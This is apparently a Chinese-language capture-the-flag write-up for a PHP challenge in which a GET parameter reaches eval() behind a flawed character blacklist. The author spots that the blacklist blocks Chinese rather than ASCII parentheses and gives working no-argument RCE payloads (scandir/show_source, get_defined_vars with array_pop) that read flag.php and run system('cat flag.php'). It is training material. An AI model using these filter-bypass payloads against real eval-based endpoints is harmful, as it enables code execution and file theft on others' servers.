 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 06:03:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/


if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}

```

分析源码

过滤了很多符号

数字

~

`

@

#

$

%
^
&
*
(

)

-

+

=

{

}

:

'

"

,

\<

.

\>

/

?



但是这里的过滤的括号是中文括号

且分号和字母没过滤



## 第一种

无参rce

```
?c=var_dump(scandir(getcwd()));
```

![image-20250402192054363](./assets/image-20250402192054363.png)

读取当前目录内容

读取flag.php

```
?c=show_source(next(array_reverse(scandir(getcwd()))));
```

![image-20250402192138841](./assets/image-20250402192138841.png)





## 第二种

利用get_defined_vars()

GET提交

```
?c=var_dump(get_defined_vars());
```

POST提交

```
1=phpinfo()
```

![image-20250402193006452](./assets/image-20250402193006452.png)

取出该数组

GET

```
?c=var_dump(next(get_defined_vars()));
```

POST

```
1=phpinfo()
```

![](./assets/image-20250402193041794.png)



然后利用array_pop进行弹出数组，命令执行

GET

```
?c=eval(array_pop(next(get_defined_vars())));
```

POST

```
1=system("cat flag.php");
```

![image-20250402193248597](./assets/image-20250402193248597.png)

